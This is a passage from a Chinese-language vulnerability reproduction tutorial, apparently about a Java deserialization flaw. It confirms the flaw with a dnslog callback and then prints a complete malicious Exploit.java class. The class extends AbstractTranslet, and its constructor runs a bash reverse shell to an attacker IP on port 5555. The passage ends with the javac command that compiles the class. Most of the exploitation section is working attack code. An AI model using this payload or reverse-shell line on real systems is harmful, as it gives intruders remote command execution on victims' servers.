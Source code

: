 ### （3）使用payload发送数据包，验证漏洞

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1646055145359-5aad0ab2-dd79-4356-b21e-4578fa92808c.png#clientId=u353ff384-1880-4&from=paste&height=483&id=ub7b84c49&margin=%5Bobject%20Object%5D&name=image.png&originHeight=643&originWidth=1014&originalType=binary&ratio=1&size=86812&status=done&style=none&taskId=u3e7ee320-300c-465a-a0ea-2cc09809e4d&width=761)


dnslog有记录，说明漏洞存在：

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1646055174245-955defeb-aee0-4e15-9077-9bb2eb4a00ae.png#clientId=u353ff384-1880-4&from=paste&height=262&id=uc92dbb55&margin=%5Bobject%20Object%5D&name=image.png&originHeight=349&originWidth=758&originalType=binary&ratio=1&size=35852&status=done&style=none&taskId=u0e10baba-73eb-4102-86af-8c3692c4d79&width=569)


## 5、漏洞利用
### （1）编译恶意类 Exploit
将`Exploit.java`中的主机ip改成攻击机的，监听端口自己设置。

   - Java中，类名和文件名需要一致才能正常编译。



Exploit.java
```shell
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Exploit extends AbstractTranslet {


    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }


    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    public Exploit() throws IOException {
        try {
            String[] commands = {"bash", "-c", "bash -i >& /dev/tcp/xx.xx.xx.xx/5555 0>&1"};
            Process p = Runtime.getRuntime().exec(commands);
            p.waitFor();
        } catch (InterruptedException e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) throws IOException {
        Exploit helloworld = new Exploit();
    }
}
```
使用`jdk1.5`编译成`Exploit.class`，这里直接使用绝对路径命令进行编译。
```shell
/opt/jdk1.5/jdk1.5.0_22/bin/javac Exploit.java
```
